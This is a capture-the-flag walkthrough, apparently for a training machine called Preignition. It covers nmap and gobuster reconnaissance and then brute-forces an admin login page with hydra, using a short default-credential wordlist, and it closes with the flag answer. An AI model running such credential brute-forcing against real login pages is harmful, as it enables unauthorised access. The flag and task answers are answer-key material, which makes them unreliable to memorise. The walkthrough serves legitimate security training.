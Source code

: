 # Preignition

- **Category**: Starting Point - Tier 0
- **Difficulty**: Very Easy
- **Tags**: Web, Custom Applications, Apache, Reconnaissance, Web Site Structure Discovery, Default Credentials
- **Tools**: nmap, gobuster, hydra


# Walkthrough

## Task 1: Directory Brute-forcing is a technique used to check a lot of paths on a web server to find hidden pages. Which is another name for this? (i) Local File Inclusion, (ii) dir busting, (iii) hash cracking.

> **Answer**: dir busting

## Task 2: What switch do we use for nmap's scan to specify that we want to perform version detection

> **Answer**: -sV

## Task 3: What does Nmap report is the service identified as running on port 80/tcp?

```bash
> nmap -sV -p 80 10.129.199.239
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 13:07 AEST
Nmap scan report for 10.129.199.239
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
```

> **Answer**: http

## Task 4: What server name and version of service is running on port 80/tcp?

> **Answer**: nginx 1.14.2

## Task 5: What switch do we use to specify to Gobuster we want to perform dir busting specifically?

> **Answer**: dir

## Task 6: When using gobuster to dir bust, what switch do we add to make sure it finds PHP pages?

> **Answer**: -x php

## Task 7: What page is found during our dir busting activities?

```bash
> gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://10.129.199.239 -x php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.199.239
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/11 13:11:36 Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 200) [Size: 999]
```

> **Answer**: admin.php

## Task 8: What is the HTTP status code reported by Gobuster for the discovered page?

> **Answer**: 200

# Submit Root Flag

We can try some basic default credentials here using `hydra`. `hydra` is a very fast network logon cracker which supports many different services.
For this we need a wordlist to supply `hydra` with the username + passwords. You can find wordlists online or generate your own as is done in the steps below.

- **NOTE**: You can follow this [tutorial](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/) to learn how to find the correct post-form details.

```bash
# Generate a basic wordlist
> cat << EOF > wordlist.txt
admin:password
root:root
root:admin
user:user
user:password
admin:admin
EOF

# Find the Post-Form details
# Running a failed login against the site whilst viewing the network tab in the developer console shows us
# that the post-form details we require are as follows:
# URL: http://10.129.199.239/admin.php
# Method: POST
# Form Data: { "username": "<USER>", "password": "<PASS>" }
# NOTE: You can also use BurpSuite to find this

# Run hydra against the target server
# We can use the `-C` flag to tell hydra we're passing it a username:password list
# We provide the 'Wrong username or password' string which the site presents in the case of an invalid password
> hydra -C wordlist.txt 10.129.199.239 http-post-form "/admin.php:username=^USER^&password=^PASS^:Wrong username or password"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-11 13:44:49
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries, ~1 try per task
[DATA] attacking http-post-form://10.129.199.239:80/admin.php:username=^USER^&password=^PASS^:Wrong username or password

[80][http-post-form] host: 10.129.199.239   login: admin   password: admin

1 of 1 target successfully completed, 1 valid password found

```

> **Answer**: 6483bee07c1c1d57f14e5b0717503c73

